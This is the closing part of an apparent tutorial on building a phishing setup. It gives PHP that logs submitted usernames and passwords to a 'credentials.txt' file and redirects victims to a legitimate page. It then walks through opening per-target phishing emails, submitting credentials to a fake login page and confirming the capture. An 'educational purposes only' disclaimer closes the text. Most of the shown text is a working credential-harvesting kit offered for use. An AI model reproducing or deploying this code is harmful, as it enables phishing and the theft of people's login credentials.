 >     $file = fopen("credentials.txt", "a");
>     fwrite($file, "Username: $username, Password: $password\n");
>     fclose($file);
>     
>     // Redirect to a legitimate page or a "login failed" page
>     header("Location: https://example.com/login"); // Change to a real page if needed
>     exit();
> }
> ?>
> 
> ```
> 
> 6. **credentials.txt**:
>     - This file will store the harvested credentials.
> ---
> #### Step 4: Test the Setup
> 
> 1. **Open Phishing Emails in Browser**:
>     
>     - Open `Bob_Phishing.html` and `Alice_Phishing.html` in your browser.
> 2. **Click the Link in the Phishing Email**:
>     
>     - Click the button/link in the phishing email to navigate to the fake login page.
> 3. **Submit Credentials**:
>     
>     - Enter sample credentials on the fake login page and submit.
> 4. **Verify Data Capture**:
>     
>     - Open `credentials.txt` in the `phishing_project` folder to verify that the credentials have been captured correctly.

---
## Conclusion

This exercise demonstrates how to create and test a phishing attack in a controlled environment. The files and steps outlined here are for educational purposes only and should not be used for any malicious activities.